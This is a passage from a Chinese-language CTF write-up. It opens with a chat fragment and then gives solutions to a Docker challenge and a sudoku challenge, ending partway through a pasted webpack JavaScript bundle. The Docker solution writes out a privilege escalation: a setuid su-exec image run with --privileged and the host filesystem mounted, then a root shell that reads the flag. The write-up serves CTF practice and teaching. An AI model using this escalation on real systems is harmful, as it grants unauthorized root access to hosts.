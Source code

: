 ```

群友E, [2024/11/2 21:51]
艺高人胆大，但是就怕一不小心就翻车了

Palve, [2024/11/2 21:51]
我当时执行完之后就 CTRL+C 了

Palve, [2024/11/2 21:52]
最终只有这一个 repo 被成功 unmount

群友E, [2024/11/2 21:53]
《hg 如何让几百公里外的镜像站体面》


```



## Docker for Everyone Plus  （藏裤裆的flag

第一问简单，Windows 用户只需要一个 xshell 即可解决使用 ZMODEM 传输文件的问题

其实最主要的还是要进到 /tmp 或 tmpfs下，不然会传不上去

先在本地手动构建一个镜像

```dockerfile
FROM docker.io/library/alpine:latest

RUN apk add su-exec && chmod +s /sbin/su-exec
```

本地导出后上传到环境中， 使用 `sudo docker image load` 导入，执行以下命令即可得到 flag

```shell
docker run --rm -u 1000:1000 -it --privileged -v /:/mnt:ro alpine  
exec su-exec root /bin/ash
cat /mnt/flag
```

## 零知识数独

只会个第一问，简单粗暴的修改响应包然后就能拿到 香香软软的 flag

```
'use strict';
(self.webpackChunk_N_E = self.webpackChunk_N_E || []).push([
  [83],
  {
    5019: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.BASE_LAYOUT = void 0),
        (i.BASE_LAYOUT = [
          [0, 1, 2, 3, 4, 5, 6, 7, 8],
          [9, 10, 11, 12, 13, 14, 15, 16, 17],
          [18, 19, 20, 21, 22, 23, 24, 25, 26],
          [27, 28, 29, 30, 31, 32, 33, 34, 35],
          [36, 37, 38, 39, 40, 41, 42, 43, 44],
          [45, 46, 47, 48, 49, 50, 51, 52, 53],
          [54, 55, 56, 57, 58, 59, 60, 61, 62],
          [63, 64, 65, 66, 67, 68, 69, 70, 71],
          [72, 73, 74, 75, 76, 77, 78, 79, 80],
        ]);
    },
    2042: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.DIFFICULTY_LEVELS = void 0),
```